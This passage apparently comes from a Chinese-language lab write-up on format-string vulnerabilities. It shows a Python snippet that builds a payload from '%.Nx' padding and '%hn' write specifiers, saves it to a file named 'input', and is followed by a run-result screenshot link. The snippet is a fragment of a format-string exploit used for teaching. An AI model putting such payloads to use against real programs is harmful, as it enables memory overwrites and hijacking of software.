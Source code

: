 ```python
    "%.{}x".format(offset1) + "%hn" +
    "%.{}x".format(offset2) + "%hn"
).encode('latin-1')

# Write the payload to badfile
with open("input", "wb") as f:
  f.write(payload)
```

运行结果：

![image-20230520090519893](assets/image-20230520090519893.png)

